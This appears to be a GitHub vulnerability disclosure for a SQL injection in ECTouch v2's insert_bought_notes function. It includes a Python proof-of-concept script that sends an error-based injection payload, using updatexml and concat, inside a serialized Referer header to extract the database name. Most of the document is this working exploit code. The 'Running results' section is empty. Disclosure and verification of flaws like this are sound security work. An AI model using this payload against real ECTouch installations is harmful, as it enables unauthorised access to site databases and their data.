


#SQL Injection Vulnerability in ECTouch v2

###Vulnerability Position



In the insert_bought_notes function on line 285 in the \ectouch-main\include\apps\default\helpers\insert.php file, the incoming $arr['id'] parameter is not verified, resulting in a sql injection vulnerability.

###POC

Use python to write scripts for vulnerability verification.

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# @Author : qyg
# @File : sqli check for ECTouch v2
# @function : Detect for SQL injection vulnerabilities in ECTouch.

import requests,re

#your target
target = 'http://127.0.0.1/'

payload = '/index.php?m=default&c=user&a=register&u=0'

url = target + payload

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54',
    'Referer': '554fcae493e564ee0dc75bdf2ebf94cabought_notes|a:1:{s:2:"id";s:49:"0&&updatexml(1,concat(0x7e,(database()),0x7e),1)#";}'
}

response = requests.get(url, headers=headers)

print(response.text)

match = re.search('XPATH syntax error: \'~(.*)~\'',response.text)

if match:
    print("There is SQL injection vulnerability, and you are currently using the following database:" + match.group(1))
```

Running results:

